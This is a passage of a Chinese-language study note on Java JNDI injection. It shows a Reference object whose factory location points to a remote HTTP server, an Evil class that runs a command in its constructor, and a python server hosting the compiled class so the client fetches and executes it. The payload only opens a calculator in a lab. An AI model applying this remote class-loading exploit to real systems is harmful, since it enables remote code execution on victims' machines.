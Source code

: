 

```java
    public Reference(String className, String factory, String factoryLocation) {
        this(className);
        classFactory = factory;
        classFactoryLocation = factoryLocation;
    }
```

其实第一个`className`用处不大，第二个参数`factory`是用来指定类名的，第三个参数就是当CLASSPATH找不到指定的类的时候，去搜索的远程URL路径了。

比如我第二个参数是`Evil`，到时候就会去寻找`http://121.5.169.223:39777/Evil.class`。

所以再写一个`Evil.java`：

```java
public class Evil {
    public Evil() throws Exception{
        Runtime.getRuntime().exec("calc");
    }
}
```

编译成`Evil.class`，然后启一个`python http`服务就可以了：

```shell
python3 -m http.server 39777
```



这里编译的Java版本和客户端的Java版本要适应，差太多的话会攻击失败。



然后启动`Server`和这个`http`，再启动`Client`就发现本地成功弹出了计算器：

![image-20210901180902501]([Java安全]JNDI注入学习.assets/image-20210901180902501.png)

![image-20210901180930340]([Java安全]JNDI注入学习.assets/image-20210901180930340.png)



![image-20210901180939375]([Java安全]JNDI注入学习.assets/image-20210901180939375.png)





# 源码分析调用



虽然懂了思路，知道是这样，但是还是有一点疑惑为啥是这样，打了断点跟一下，懂了为什么是这样。这里只是记录一下过程，建议自己打断点跟进。



```java
context.lookup(url); //打断点开始跟进
```



